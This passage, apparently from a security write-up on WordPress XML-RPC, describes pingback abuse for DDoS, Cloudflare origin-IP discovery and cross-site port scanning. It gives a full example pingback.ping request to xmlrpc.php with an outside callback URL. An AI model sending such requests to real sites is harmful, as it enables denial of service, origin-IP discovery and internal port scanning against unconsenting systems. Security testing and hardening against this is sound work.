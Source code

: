 ~~~
Date: Mon, 01 Jul 2019 17:19:05 GMT
Server: Apache
Strict-Transport-Security: max-age=63072000; includeSubdomains; preload
Connection: close
Vary: Accept-Encoding
Referrer-Policy: no-referrer-when-downgrade
Content-Length: 181
Content-Type: text/xml; charset=UTF-8

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <string>Hello!</string>
      </value>
    </param>
  </params>
</methodResponse>
~~~
## XML-RPC pingbacks attacks
In this case, an attacker is able to leverage the default XML-RPC API in order to perform callbacks for the following purposes:

Distributed denial-of-service (DDoS) attacks - An attacker executes the pingback.ping the method from several affected WordPress installations against a single unprotected target (botnet level).
Cloudflare Protection Bypass - An attacker executes the pingback.ping the method from a single affected WordPress installation which is protected by CloudFlare to an attacker-controlled public host (for example a VPS) in order to reveal the public IP of the target, therefore bypassing any DNS level protection.
XSPA (Cross Site Port Attack) - An attacker can execute the pingback.ping the method from a single affected WordPress installation to the same host (or other internal/private host) on different ports. An open port or an internal host can be determined by observing the difference in time of response and/or by looking at the response of the request.
The following represents an simple example request using the PostBin provided URL as callback:
~~~
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 303

<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>https://postb.in/1562017983221-4377199190203</string></value>
</param>
<param>
<value><string>https://example.com/</string></value>
</param>
</params>
</methodCall>
~~~
Example response:
~~~
HTTP/1.1 200 OK
Date: Mon, 01 Jul 2019 21:53:56 GMT
Server: Apache
Strict-Transport-Security: max-age=63072000; includeSubdomains; preload
Connection: close
Vary: Accept-Encoding
Referrer-Policy: no-referrer-when-downgrade
Content-Length: 370
~~~